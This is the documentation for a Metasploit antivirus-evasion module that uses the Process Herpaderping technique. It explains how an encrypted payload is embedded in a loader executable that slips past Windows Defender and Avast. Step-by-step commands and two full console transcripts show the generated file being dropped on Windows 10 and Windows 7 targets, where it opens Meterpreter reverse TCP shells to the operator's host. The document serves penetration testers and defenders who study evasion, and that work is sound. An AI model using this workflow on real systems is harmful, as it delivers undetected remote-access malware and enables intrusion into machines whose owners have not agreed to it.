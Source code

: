 ## Description
This module allows you to generate a Windows executable that evades security
products such as Windows Defender, Avast, etc. This uses the Process
Herpaderping technique to bypass Antivirus detection. This method consists in
obscuring the behavior of a running process by modifying the executable on disk
after the image has been mapped in memory (more details
[here](https://jxy-s.github.io/herpaderping/)).

First, the chosen payload is encrypted and embedded in a loader Portable
Executable (PE) file. This file is then included in the final executable. Once
this executable is launched on the target, the loader PE is dropped on disk and
executed, following the Process Herpaderping technique. Note that the name of
the file that is being dropped is randomly generated. However, it is possible
to configure the destination path from Metasploit (see `WRITEABLE_DIR` option
description).

Here is the main workflow:
1. Retrieve the target name (where the PE loader will be dropped).
1. Retrieve the PE loader from the binary and write it on disk.
1. Create a [section object](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views)
   and create a process from the mapped image.
1. Modify the file content on disk by copying another (inoffensive) executable
   or by using random bytes (see `REPLACED_WITH_FILE` option description).
1. Create the main Thread.

The source code is based on [Johnny Shaw](https://twitter.com/jxy__s)'s
[PoC](https://github.com/jxy-s/herpaderping).

## Verification Steps
Here are the steps using a Meterpreter payload on a 64-bits target:

1. Do: `use evasion/windows/process_herpaderping`
1. Do: `set LHOST <local IP>`
1. Do: `set target 0`
1. Do: `set payload windows/x64/meterpreter/reverse_tcp`
1. Do: `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. Do: `run`
1. Copy the generated executable file to the target (using another exploit or SMB)
1. Run it on the target
1. Verify the Antivirus did not block its execution
1. Verify you got a session

## Options

### ENCODER
A specific encoder to use (automatically selected if not set). Note that the
encoded payload will be automatically encrypted before being placed into the
loader.

### FILENAME
Filename for the generated evasive file file. The default is random.

### WRITEABLE_DIR
Where to write the loader on disk. Windows environment variables can be used
in the path and the default is set to `%TEMP%`. Note that this file will be
removed automatically when the session is terminated or if an error occurs.

### REPLACED_WITH_FILE
The file to replace the target with. If not set, the target file will be filled
with random bytes (WARNING! it is likely to be catched by AV). Windows
environment variables can be used in the path and the default is set to
`%SystemRoot%\\System32\\calc.exe`.


## Scenarios
### Windows 10 x64 version 1909 with Avast Antivirus (also tested with Windows Defender)
```
msf6 > use evasion/windows/process_herpaderping
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf6 evasion(windows/process_herpaderping) > set target 0
target => 0
msf6 evasion(windows/process_herpaderping) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > run
[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe

msf6 evasion(windows/process_herpaderping) >
[*] Sending stage (200262 bytes) to 192.168.144.128
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.128:50205) at 2021-01-22 13:02:14 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-UUQE0B4
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-UUQE0B4\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.128 - Meterpreter session 1 closed.  Reason: User exit
```

### Windows 7 x86 with Avast Antivirus
```
msf6 evasion(windows/process_herpaderping) > set target 1
target => 1
msf6 evasion(windows/process_herpaderping) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 evasion(windows/process_herpaderping) > options

Module options (evasion/windows/process_herpaderping):

   Name                Current Setting                 Required  Description
   ----                ---------------                 --------  -----------
   ENCODER                                             no        A specific encoder to use (automatically selected if not set)
   FILENAME            raU.exe                         yes       Filename for the evasive file (default: random)
   REPLACED_WITH_FILE  %SystemRoot%\System32\calc.exe  no        File to replace the target with. If not set, the target file will be filled with random bytes (WARNING! it is likely to be catched by AV).
   WRITEABLE_DIR       %TEMP%                          yes       Where to write the loader on disk


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   1   Microsoft Windows (x86)


msf6 evasion(windows/process_herpaderping) > run

[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
msf6 evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe

msf6 evasion(windows/process_herpaderping) > jobs -K
Stopping all jobs...
msf6 evasion(windows/process_herpaderping) > handler -p windows/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf6 evasion(windows/process_herpaderping) > [*] Sending stage (175174 bytes) to 192.168.144.133
[*] Meterpreter session 3 opened (192.168.144.1:4444 -> 192.168.144.133:51542) at 2021-01-22 13:09:43 +0100

msf6 evasion(windows/process_herpaderping) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN7-DEV
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN7-DEV\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.133 - Meterpreter session 3 closed.  Reason: User exit
```
